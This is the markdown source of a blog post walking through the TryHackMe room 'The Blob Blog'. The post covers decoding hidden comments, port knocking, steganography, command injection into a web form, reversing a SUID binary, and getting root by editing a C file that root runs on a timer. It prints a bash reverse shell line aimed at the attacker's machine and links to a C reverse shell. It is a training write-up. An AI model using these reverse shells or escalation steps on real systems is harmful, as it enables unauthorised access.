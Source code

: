 ```yaml
---
layout: post
title: Tryhackme - The Blob Blog
date: 2020-12-25 19:00:00 +0000
category: [Tryhackme, Medium]
tags: [thm,linux,medium,reversing,reverse-shell]
---
```


---
<p>The Blob Blog is a medium level room Tryhackme room. This rooms requires a little out-of-box thinking and some reversing skills. The final objective is to get the user and root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/theblobblog/1.png)

**Author** | bobloblaw
**Description** | Successfully hack into bobloblaw's computer.


## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/theblobblog/nmap_scan1.png)
<br>
From the first nmap scan, there are only two ports open: ```22/ssh``` and ```80/http```. I checked the ```http``` service first and found the apache2 page.
<br>
![apache_homepage](/assets/img/tryhackme/theblobblog/2.png)
<br>

In the source page  I found two comments, one is a base64 encoded string and the second one seemed to be some sort of message.

I decoded the first comment in the following way:  ```base64``` using ```cyberchef``` > ```brainf@@k``` using ```dcode```. After decoding I got this message.
<br>
![dcode_first_comment](/assets/img/tryhackme/theblobblog/5.png)
<br>


## <ins>Port knocking</ins>
---
I spent some time figuring out the hint in the message and finally came to a conclusion that it is ```port knocking```.

In case you don't know what ```port knocking``` is, here is the explanation:

**Port knocking:** Port knocking is a stealth method to externally open ports that, by default, the firewall keeps closed. It works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection.

source: [https://wiki.archlinux.org/index.php/Port_knocking](https://wiki.archlinux.org/index.php/Port_knocking)

And from the decoded message the combination is ```1,3,5```. I used nmap to make a connection with the specified ports
<br>
<pre>nmap ip-addr -p 1,3,5</pre>
<br>

Do a nmap scan again on all ports and see if there are more ports open. If not, repeat the nmap scan again (Since I didn't get it in the first try).
<br>
![nmap_scan_2](/assets/img/tryhackme/theblobblog/nmap_scan2.png)


## <ins>FTP and HTTP</ins>
---
From the nmap scan I found that ```Anonymous``` login is not enabled in the ```ftp service```. The only password that came to my mind was the string in the second comment. I decoded the ```base58``` encoded string using ```cyberchef```.
<br>
![ftp_passwd](/assets/img/tryhackme/theblobblog/6.png)
<br>
I logged into the ftp server with the username ```bob``` and found an image file. Download it using the ```get file-name``` command.
<br>
![ftp_service](/assets/img/tryhackme/theblobblog/7.png)
<br>
I tried using ```steghide``` to extract the contents of the image file but it required a password to do so. Argghhh...need to find another password.

So, I checked the ```http``` service running in the port ```445``` and found this comments in the source page.
<br>
![image_passwd](/assets/img/tryhackme/theblobblog/8.png)
<br>
Now, use ```steghide``` to extract the contents of the image file.
<br>
![steghide_extract](/assets/img/tryhackme/theblobblog/9.png)
<br>
I checked the extracted text file and found two lines: first one didn't make any sense since I thought it was ```rot``` cipher as it was not and the second one is a directory name in the webpage. After going to the directory I found the key to decipher the first one.
<br>
![bob_dir](/assets/img/tryhackme/theblobblog/10.png)
<br>
The first line that we found on the text file can be decoded with ```vigenere cipher```.
<br>
![vigenere_decode](/assets/img/tryhackme/theblobblog/11.png)
<br>
I tried to log in to ssh using the above credentials but my effort was in vain. Then, I checked the final port ```8080``` . I used ```gobuster``` to brute force the hidden directories since there was no hint in the souce page.
<br>
![gobuster_8080](/assets/img/tryhackme/theblobblog/12.png)
<br>

## <ins>Reverse Shell</ins>
---
I logged in with the credentials that we just found. I checked every link that was given in the page but found nothing interesting. 
<br>
![login_page](/assets/img/tryhackme/theblobblog/13.png)
<br>
I tried some common strings and command in the input box and saw it being reflected in the review link. So, I grabbed the ```bash reverse shell``` and used it in the input box. At first, I thought that the reverse shell would pop-up after clicking the submit button but I was wrong. After submitting the reverse shell payload link on the review link to get the reverse shell. Remember to open a ```netcat``` listener.
<br>
<pre>bash -i >& /dev/tcp/your-vpn-ip/4444 0>&1</pre>
<br>
![reverse_shell](/assets/img/tryhackme/theblobblog/15.png)
<br>
At last!!! We got the shell.


## <ins>User flag</ins>
---
I used ```find``` command to list files with permissions.
<br>
<pre>find / -perm -4000 2>/dev/null</pre>
<br>
I found this particular file out of place. So, I tried executing it with arbitary inputs but had no luck with it.
<br>
![find_output](/assets/img/tryhackme/theblobblog/16.png)
<br>
I transferred the file to my local machine and tried using ```Ghidra``` to reverse engineer it.
<br>
![ghidra_prog](/assets/img/tryhackme/theblobblog/17.png)
<br>
From the main function I understood that it requires ```6 arguments``` and it checks for the condition ```7 - whatever input parameter``` given and loops over the input parameters. So, I tried using all six patameters with the value of 6.
<br>
![blog_elf](/assets/img/tryhackme/theblobblog/20.png)
<br>
After some trial and error, I arrived at ```6 5 4 3 2 1```. Use ```python pty``` to spawn a shell.
<br>
![blog_crack](/assets/img/tryhackme/theblobblog/21.png)
<br>
![user_flag](/assets/img/tryhackme/theblobblog/22.png)
<br>
Voila!! We got the user flag. Without further ado, let's move to getting root.


## <ins>Root flag</ins>
---
I checked for hints in the image files that was with the user flag but found nothing useful. So, I used ```sudo -l``` and found two binaries that can be run as root. 
<br>
<pre>(root) NOPASSWD: /bin/echo, /usr/bin/yes</pre>
<br>

After searching through ```gtfobins``` for commands I found nothing.
Hmmm....back to square one.

Like every 30 seconds or a minute this message stating that "You haven't rooted me yet? Jezz" would be displayed. I thought it would be running as a ```cronjob``` but there was no binary mentioned in the ```/etc/crontab``` file that displayed this message. So, I searched through some directories and finally found file displaying the message in the ```/Documents``` directory.
<br>
![boring_file](/assets/img/tryhackme/theblobblog/23.png)
<br>
![content_boring_file](/assets/img/tryhackme/theblobblog/24.png)
We can use this to get the reverse shell. First, to be able to edit the text file we need the use ```stty```.
<br>
<pre>
ctrl+z
stty raw -echo;fg
reset
xterm-256color
export TERM=xterm-256color
</pre>
<br>

I grabbed the ```c reverse shell``` which can be found [here](https://gist.github.com/0xabe-io/916cf3af33d1c0592a90) and edited the ```remote addr``` and ```remote port```. Remember to open a netcat listener.

Wait for a few seconds for the reverse shell.

The root flag will be waiting for you in ```/root/root.txt``` file.


That's it folks. Happy hacking!!!

